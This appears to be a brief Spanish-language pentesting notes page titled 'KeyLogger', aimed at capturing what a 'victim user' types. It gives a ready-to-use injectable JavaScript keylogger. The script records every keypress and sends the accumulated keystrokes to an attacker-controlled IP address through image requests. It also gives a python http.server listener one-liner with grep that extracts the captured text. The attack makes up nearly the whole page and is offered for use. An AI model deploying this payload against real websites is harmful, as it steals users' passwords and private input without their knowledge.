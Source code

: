 # KeyLogger

Script en js para ver que está tecleando el usuario victima

```
python3 -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'
```

```
<script>
        var k = "";
        document.onkeypress = function(e){
                e = e || window.event;
                k += e.key;
                var i = new Image();
                i.src = "http://192.168.1.173/" + k;
        };
</script>
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt="" width="487"><figcaption></figcaption></figure>

</div>
